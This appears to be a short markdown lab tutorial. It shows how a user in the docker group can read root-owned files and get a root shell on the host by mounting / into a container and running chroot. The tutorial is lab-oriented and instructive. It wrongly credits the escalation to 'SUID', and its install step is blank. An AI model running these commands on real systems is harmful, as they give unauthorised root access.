



# Docker

## SUID docker

### To create a vulnerable host

install docker using this:



after the installation is completed add a new user for this test and add it to the docker group

#### `adduser test  usermod -aG docker test`

Now ssh to the target with the new user

we have access to the docker group

to test this run docker hello-world default image

#### `docker run hello-world`

what just happened was docker client connected to docker daemon and the daemon pulled the "hello-world" image from docker hub. then it created a nre container from that image and ran it. then the daemon streamed the output "Hello from Docker!" to docker client which sent it to the terminal.

we can do this with another image like an ubuntu container:

#### `docker run ubuntu`

one of dockers features is that it can mount a directory from the host system to a directory in the container for quick file grabbing.

#### `docker run -v /root:/mnt ubuntu cat /mnt/flag.txt`

By using the -v flag we specified a volume to mount, in this case the /root directory on the host was mounted to the /mnt directory on the container. Because docker has SUID we were able to mount a root owned directory in our container!

we can get a shell using the same technique combined with the chroot command

#### `docker run -it -v /:/mnt ubuntu chroot /mnt`

